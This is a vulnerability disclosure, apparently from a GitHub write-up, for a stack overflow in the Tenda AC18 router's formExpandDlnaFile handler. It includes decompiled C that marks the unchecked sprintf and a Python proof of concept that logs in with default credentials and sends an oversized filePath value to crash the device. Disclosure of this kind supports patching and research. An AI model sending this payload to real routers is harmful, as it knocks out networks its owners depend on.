 
## Tenda AC18 stack overflow vulnerability

### * Version

V15.03.05.19_multi ac18_kf_V15.03.05.19(6318_)_cn.bin)

### * Firmware
[https://www.tenda.com.cn/download/detail-2683.html](https://www.tenda.com.cn/download/detail-2683.html)




### * Vulnerability Detail

In function formExpandDlnaFile, the content obtained by the program from the parameter "filePath" is passed to local_24, 
and then the local_24 is directly copied into the acStack1092 stack through the sprintf function.
There is no size check, so there is a stack overflow vulnerability. The attacker can easily perform a Deny of Service Attack or Remote Code Execution with carefully crafted overflow data.


```c
void formExpandDlnaFile(undefined4 param_1)

{
  int iVar1;
  undefined4 uVar2;
  undefined auStack6468 [256];
  char acStack6212 [5120];
  char acStack1092 [512];
  char acStack580 [512];
  int local_44;
  DIR *local_40;
  dirent *local_3c;
  undefined4 local_38;
  undefined4 local_34;
  undefined4 local_30;
  void *local_2c;
  undefined4 local_28;
  undefined4 local_24;
  char *local_20;
  int local_1c;
  int local_18;
  int local_14;
  
  local_24 = 0;
  local_28 = 0;
  local_2c = (void *)0x0;
  local_30 = 0;
  local_34 = 0;
  local_38 = 0;
  local_3c = (dirent *)0x0;
  local_40 = (DIR *)0x0;
  memset(acStack580,0,0x200);
  memset(acStack1092,0,0x200);
  memset(acStack6212,0,0x1400);
  memset(auStack6468,0,0x100);
  local_44 = 0;
  local_14 = 0;
  local_18 = 0;
  local_1c = 0;
  local_20 = (char *)0x0;
  local_24 = FUN_0002b884(param_1,"filePath",&DAT_000f2e24);
  local_28 = FUN_0002b884(param_1,"folderGrade",&DAT_000f2e24);
  GetValue("dlna.db",auStack6468);
  sprintf(acStack1092,"%s/%s","/var/etc/upan",local_24);  //here is overflow
  local_20 = acStack1092;
  while (local_20 = strchr(local_20,0x2f), local_20 != (char *)0x0) {
    local_1c = local_1c + 1;
    local_20 = local_20 + 1;
  }
  local_30 = FUN_00041bfc();
  local_34 = FUN_00041bc0();
...
}
```

### * POC
```python
import requests


cmd  = b'filePath=' + b'A' * 1800 + '&folderGrade=1&subfileList=aaaaaaaaa'


url = b"http://192.168.2.2/login/Auth"
payload = b"http://192.168.2.2/goform/expandDlnaFile/?" + cmd

data = {
    "username": "admin",
    "password": "admin",
}

def attack():
    s = requests.session()
    resp = s.post(url=url, data=data)
    print(resp.content)
    resp = s.post(url=payload, data=data)
    print(resp.content)

attack()

```


